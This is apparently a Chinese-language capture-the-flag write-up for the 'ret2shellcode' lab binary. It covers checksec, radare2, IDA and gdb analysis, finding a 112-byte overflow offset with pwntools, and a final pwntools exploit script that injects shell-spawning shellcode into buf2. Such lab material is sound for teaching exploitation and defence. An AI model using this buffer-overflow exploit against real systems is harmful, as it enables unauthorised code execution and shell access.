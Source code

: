 # ret2shellcode
## 執行結果

會自動印出 " No system for you this time !!!"

接著輸入任意字串

就會印出 "bye bye ~"

結束執行

![image](https://user-images.githubusercontent.com/22366572/148738726-f6408add-6f6b-42b3-9624-7afbfea8d595.png)

## 分析步驟
### Step 1 : 獲得檔案的基本資料

指令: ```file [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719601-e694ff03-15c6-41e8-91e0-63f9528e3fc8.png)

可以看到它是在 GNU/Linux 2.6.24 上編譯的，dynamically linked (動態連接的)，ELF 32-bit LSB executable

### Step 2 : 看開啟了哪些保護機制

指令: ```checksec [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719750-61ca71ad-4ce4-4565-ac46-e310794b4f09.png)

可以看到這個執行檔沒有開啟保護機制

### Step 3 : 做逆向工程

1. 使用 radare2 做逆向工程

main逆向指令:
```
r2 ret2shellcode
aa
afl
s main
VV
```
![image](https://user-images.githubusercontent.com/22366572/148738318-e9c4df11-94c9-4fab-a1fe-bc1cd3628721.png)

main 組語:

![image](https://user-images.githubusercontent.com/22366572/148738426-65ea99e6-0861-4f5b-902c-2fadfeef4aec.png)
![image](https://user-images.githubusercontent.com/22366572/148738519-df170b94-4552-46f6-9b29-a91c08774fe8.png)

從上面可以觀察到輸入的字串會儲存在 **buf2** 裡，或許可以在 buf2 裡塞 shellcode 來執行我們想要的指令 

2. 使用 IDA 做逆向工程

將檔案匯入IDA，即可看到組語

![image](https://user-images.githubusercontent.com/22366572/148740280-53add0f9-f2b3-4294-898b-f327affc5f13.png)


### Step 4 : 確認 buf2 是否有可執行能力

指令:
```
gdb ./ret2shellcode
b main                # 給一個breakpoint
r                     # 執行
```

![image](https://user-images.githubusercontent.com/22366572/148740688-47bd3855-3e0f-434c-acf1-a3a8ac6f7b58.png)

![image](https://user-images.githubusercontent.com/22366572/148741213-6a36cef4-3ccf-4132-8934-0d2d05630b25.png)
![image](https://user-images.githubusercontent.com/22366572/148741276-eb742942-e9d4-4bb6-bba5-bab5ba444445.png)

**接著我們要來找 buf2 的位置**

指令:
```
vmmap
```

![image](https://user-images.githubusercontent.com/22366572/148741876-414772bb-c0dc-4824-b5de-e6b9479acb01.png)

因為從上面用 radare2 或是 IDA 分析可以看到，buf2 的位置在 0804a080，所以從上面那張圖可以知道 buf2 的位置在 /home/woowater/Lab3/PWN20210824/ROP/ret2， **且狀態是可讀可寫的**

[Perm] :
  
  ![image](https://user-images.githubusercontent.com/22366572/148756873-dee75647-ace7-4856-84d6-940b6c9a7054.png)

### Step 5 : 找到 return address 的位置
先用 python 產生 120 個隨機的字元 :
```
from pwn import *
cyclic(120)
```
![image](https://user-images.githubusercontent.com/22366572/148826938-5eaf0afc-0787-4573-8c21-7dd49db2dab8.png)

```
# 120字元
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

開啟 gdb ，啟動 ret2shellcode ，將剛剛產生的 120 個隨機的字元填進去，看看會發生甚麼事:

![image](https://user-images.githubusercontent.com/22366572/148828010-4283f211-f9a5-42f7-b748-2154eddeee8d.png)
![image](https://user-images.githubusercontent.com/22366572/148828102-624465bd-2689-44cc-8b28-fbcc2fb4f5cd.png)

由上圖可看到發生了 Segmentation fault，這是因為在EIP指到的地方發生了 Invalid $PC address。當時跑到 return address 的 EIP 會填進 "daab"，我們希望能將 "daab" 那裡填進我們 shellcode 的位置，這樣當 EIP 跑到 return address 時，就會跳到 shellcode 並執行裡面的程式。對照產生的 120 字元可以知道，在跑到 return address 之前需要填進 **112 個字元**
```
# 開啟python找到指定字元的方法
from pwn import *
cyclic(120)
cyclic_find(b'daab') # find 'daab' location
```

### Step 6 : 撰寫 exploit code

**Exploit code :**

(檔名: exp-ret2shellcode.py)

exploit code 裡面可以讓準備好要進行攻擊的 shellcode 塞進 buf 執行 (這裡先不放 shellcode)

```
from pwn import *
sh = process("./ret2shellcode")
payload = asm(shellcraft.sh())
payload = payload.ljust(112,"a")
buf2_addr = 0x804a080
sh.sendline(payload + p32(buf2_addr))
sh.interactive()
```

執行結果:

![image](https://user-images.githubusercontent.com/22366572/148839040-044519be-7615-467c-9812-31f915de2e8c.png)


## 參考資料

1. https://hackmd.io/@JuneWave/Hk8MFqWhE?type=view
2. https://www.bilibili.com/video/BV1Vg4y1z7oF/
